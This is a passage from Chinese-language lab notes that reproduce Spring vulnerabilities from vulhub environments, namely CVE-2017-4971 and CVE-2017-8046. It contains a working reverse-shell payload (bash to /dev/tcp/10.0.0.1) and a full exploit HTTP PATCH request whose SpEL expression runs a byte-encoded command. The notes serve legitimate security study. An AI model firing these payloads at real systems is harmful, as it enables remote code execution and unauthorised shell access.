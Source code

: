 ```
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```
> 返回的包中有submissionId，然后访问`http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果.


# ** [Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）](https://vulhub.org/#/environments/spring/CVE-2017-4971/)**

## 漏洞复现

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：
```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")
```

# **[Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）](https://vulhub.org/#/environments/spring/CVE-2017-8046/)**

## 漏洞复现

> 访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来`修改之`：
```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

# [**Spring Messaging 远程命令执行漏洞（CVE-2018-1270）**](https://vulhub.org/#/environments/spring/CVE-2018-1270/)
